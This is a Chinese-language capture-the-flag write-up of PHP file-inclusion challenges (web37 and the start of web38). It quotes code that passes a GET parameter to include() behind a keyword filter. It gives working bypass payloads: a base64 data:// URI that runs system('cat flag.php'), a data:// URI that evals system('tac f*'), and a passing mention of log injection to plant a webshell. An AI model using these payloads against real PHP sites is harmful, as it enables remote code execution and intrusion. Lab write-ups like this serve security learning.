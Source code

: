 ```php
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

大致意思是，判断有没有传c参数，有的话赋值给$c,然后include文件包含$c,过滤了flag关键字，include不能用通配符，直接日志注入传马即可，略。

看一下大菜鸡师傅的

```无
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

用base64编码绕过flag关键字过滤，高实在是高

> 其实，通配符直接替换即可哈哈哈
>
> ?c=data://text/plainc,<?php eval(system('tac f*'))?>

### web38

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
